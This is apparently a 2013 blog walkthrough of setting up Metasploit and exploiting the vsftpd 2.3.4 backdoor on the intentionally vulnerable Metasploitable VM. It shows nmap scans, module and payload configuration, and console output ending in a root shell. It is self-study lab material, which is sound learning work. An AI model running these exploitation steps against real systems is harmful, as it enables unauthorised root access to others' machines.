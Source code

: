 ```yaml
---
title: 
updated_at: 2013-11-12 7:55am
---
```


# Metasploit on Crunchbang

## Set up Developer Environment

Most of what I do is from the offical [Rapid 7 Development Environment
Guide](https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment)

### Install any missing deps:

```bash
sudo apt-get -y install \
build-essential zlib1g zlib1g-dev \
libxml2 libxml2-dev libxslt-dev locate \
libreadline6-dev libcurl4-openssl-dev git-core \
libssl-dev libyaml-dev openssl autoconf libtool \
ncurses-dev bison curl wget postgresql \
postgresql-contrib libpq-dev \
libapr1 libaprutil1 libsvn1 \
libpcap-dev
```

Other steps that I am skipping for now:

* Install `git`
* Install `rvm`
* Install `ruby-1.9.3`

### Clone Repo

I usually do this into some sort of bin/ directory. I'll use `~/bin` for now.

```bash
git clone https://github.com/rapid7/metasploit-framework.git
```

### Bundle 

```bash
# rvm install ruby-1.9.3-p448
# gem install bundler
cd bin/metasploit-framework
bundle install
```

### Start Metasploit console:

Just run `./msfconsole` to make sure that the whole thing working. Yay!

It should look something like this: 

```bash
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with
Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.7.2-2013103001 [core:4.7 api:1.0]
+ -- --=[ 1215 exploits - 660 auxiliary - 189 post
+ -- --=[ 322 payloads - 30 encoders - 8 nops

msf >
```

## Usage

_Disclaimer: This is not the definitive Metasploit guide. For a more complete tutorial checkout [Metaploit Unleashed](http://www.offensive-security.com/metasploit-unleashed/Main_Page)_

My goal is to document some of my self study efforts into MSF against the Metasploitable VM.

### Metasploitable 

Metasploitable is an intentional vulnerable server image which can be used for educational or testing purposes. It's a pretty handy way to get oriented to the framework.

You can [download the Metasploitable VM here](http://www.offensive-security.com/metasploit-unleashed/Metasploitable).

### Scanning with MSF & Nmap

You can use `nmap` directly from inside msf. A simple scan of the Metasploitable VM looks like this:

```bash

msf > nmap 10.13.37.136
[*] exec: nmap 10.13.37.136


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:24 EST
Nmap scan report for 10.13.37.136
Host is up (0.0067s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
# Yikes!
```

_Note: If you configure MSF to use a database such as_ `postgres` _you can
feed the_ `nmap` _results directly in via the_ `db_nmap` _command. I will be
doing all of these exmaples without a databse connected._


#### Metasploitable Cases

##### FTP - `21/tcp`

Start with a more complete scan:

```bash

msf > nmap -sV  10.13.37.136 -p 21
[*] exec: nmap -sV  10.13.37.136 -p 21


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:34 EST
Nmap scan report for 10.13.37.136
Host is up (0.0018s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix
```

Next, try and search for a relevant exploit:

```bash
msf > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Oh good! It found something so lets configure it to use
`exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) >
```

Set the remote (target) port and address and the local receiver host ip:

```bash
msf exploit(vsftpd_234_backdoor) > set RHOST = 10.13.37.136
RHOST => = 10.13.37.136
msf exploit(vsftpd_234_backdoor) > set RPORT = 21
RPORT => = 21
msf exploit(vsftpd_234_backdoor) > set LHOST 10.13.37.116
LHOST => 10.13.37.116
```

Search for aan appropriate payload. _Note: this is done from bash, not from
inside `msfconsole`.

```bash
$ msfpayload -l | grep unix
    ...
    ...
    cmd/unix/interact
    ...
    ...
```

Set the payload as well.

```bash
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/interact
```

Review settings ...

```bash
msf exploit(vsftpd_234_backdoor) > set

Module: unix/ftp/vsftpd_234_backdoor
====================================

  Name                   Value
  ----                   -----
  ...
  LHOST                  10.13.37.116
  PAYLOAD                cmd/unix/interact
  RHOST                  10.13.37.136
  RPORT                  21
  ...
```

... And exploit!

```bash
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (10.13.37.116:54285 -> 10.13.37.136:6200) at 2013-11-12 11:04:25 -0500

whoami
root
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e0:62:7f
          inet addr:10.13.37.136  Bcast:10.13.37.255  Mask:255.255.255.0
          ...

exit

[*] 10.13.37.136 - Command shell session 2 closed.  Reason: Died from EOFError

```

Hurray!

